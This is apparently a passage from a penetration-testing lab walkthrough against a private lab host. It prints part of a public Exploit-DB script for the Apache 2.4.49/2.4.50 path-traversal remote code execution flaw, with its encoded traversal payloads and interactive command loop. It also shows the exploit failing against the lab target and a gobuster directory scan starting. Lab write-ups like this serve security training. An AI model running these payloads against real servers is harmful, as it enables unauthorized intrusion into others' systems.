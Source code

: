```python
        response = session.send(prepare, timeout=5)
        output = response.text
        if "uid" in output:
            choice = "Y"
            print( Fore.GREEN + '\n[!] Target %s is vulnerable !!!' % host)
            print("[!] Sortie:\n\n" + Fore.YELLOW + output )
            choice = input(Fore.CYAN + "[?] Do you want to exploit this RCE ? (Y/n) : ")
            if choice.lower() in ['','y','yes']:
                while True:
                    commands(url,command,session)
            else:
                end()
        else :
            print(Fore.RED + '\nTarget %s isn\'t vulnerable' % host)
    except KeyboardInterrupt:
        end()

def main():
    try:
        apache2449_payload = '/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash'
        apache2450_payload = '/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash'
        payloads = [apache2449_payload,apache2450_payload]
        choice = len(payloads) + 1
        print(header)
        print("\033[1;37m[0] Apache 2.4.49 RCE\n[1] Apache 2.4.50 RCE")
        while choice >= len(payloads) and choice >= 0:
            choice = int(input('[~] Choice : '))
            if choice < len(payloads):
                exploitRCE(payloads[choice])
    except KeyboardInterrupt:
            print("\n\033[1;91m[!] Bye bye !")
            time.sleep(0.5)
            sys.exit(1)

if __name__ == '__main__':
    main()
```

`cp /usr/share/exploitdb/exploits/multiple/webapps/50512.py ./`

`python3 ./50512.py 192.168.56.112:80`:
```
Target 192.168.56.112:80 isn't vulnerable ←
```
❌ Failed Step.

`gobuster dir -u http://192.168.56.112 -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php,bak,jpg,txt,zip -b 400,401,404,500 -t 100`:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.112
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   400,401,404,500
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,bak,jpg,txt,zip
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
```